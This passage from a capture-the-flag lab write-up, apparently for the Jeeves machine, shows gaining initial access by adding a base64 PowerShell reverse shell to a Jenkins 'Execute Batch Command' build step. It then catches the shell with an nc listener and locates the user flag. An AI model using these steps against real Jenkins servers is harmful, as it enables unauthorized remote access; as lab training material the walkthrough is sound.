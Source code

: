 In the General setting of the project, it can be seen that there are various Build steps that can be added including an option to **Execute Batch Command**.

## Initial Access

With that option selected we can provide a batch command that will be executed during the build. Here, we can provide a powershell command that would create a reverse shell. The easiest way to do this would be to get the base64 encoded powershell reverse shell command that can be easily generated from [RevShells](https://www.revshells.com/)(PowerShell #3 - Base64).

![powershell_build](./.images/powershell_build.png)

Start a simple `nc` listener on the port that was used to generated the PowerShell command and then click on `Build Now` after saving these changes.

And with that we get our initial access to the machine

```
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.15.61] from (UNKNOWN) [10.129.228.112] 49676

PS C:\Users\Administrator\.jenkins\workspace\RevShell> whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins\workspace\RevShell> pwd

Path
----
C:\Users\Administrator\.jenkins\workspace\RevShell
```

With this inital access, we can also get the user flag.

```
PS C:\> cd ~\Desktop
PS C:\Users\kohsuke\Desktop> dir


    Directory: C:\Users\kohsuke\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        11/3/2017  11:22 PM             32 user.txt


PS C:\Users\kohsuke\Desktop> type user.txt
```

